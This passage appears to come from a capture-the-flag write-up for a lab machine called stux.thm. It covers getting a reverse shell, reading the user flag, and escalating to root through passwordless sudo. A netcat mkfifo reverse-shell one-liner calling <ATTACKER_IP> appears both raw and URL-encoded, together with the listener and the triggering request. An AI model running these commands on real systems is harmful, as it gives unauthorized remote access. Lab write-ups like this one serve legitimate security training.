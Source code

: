 It's worked, so now with command execution confirmed, we can upgrade our access to a **fully interactive reverse shell**.

We use the following **Netcat reverse shell payload** :

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f
```

Since this needs to be **URL-encoded**, it would look like this :

```sh
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20<ATTACKER_IP>%20<ATTACKER_PORT>%20%3E%2Ftmp%2Ff
```

![Image](https://github.com/user-attachments/assets/7f4dac2f-b997-49d3-b79e-b146c08c9204)

We start a **Netcat listener** on our attack machine :

```bash 
nc -lvnp <ATTACKER_PORT>
```

Then, we trigger the shell by accessing :

```bash
http://stux.thm/4731502[...]855055/exploit.php?c=<URL_ENCODED_PAYLOAD>
```

And we successfully establish a connection to the target machine.

![Image](https://github.com/user-attachments/assets/9d23a1fa-932f-4593-aa22-1048b7358b1a)

--- 
### User flag 

Now that we have access, our next step is to retrieve the user flag.

![Image](https://github.com/user-attachments/assets/18db29f4-12cd-4aee-aaf5-974fb32e1565)

--- 
### Post-exploitation enumeration

Now, let's enumerate the system to better understand the environment and identify any vulnerabilities or misconfigurations that could lead us to the **root** flag.

![Image](https://github.com/user-attachments/assets/706a1447-4842-4fc2-ba23-dd592a4bbdd1)

The output of the `sudo -l` command reveals that the `www-data` user has permission to execute any command as root **without requiring a password**. A critical misconfiguration that we can exploit...

--- 
### Privilege escalation 

With root access obtained, we can now retrieve the **root flag** :
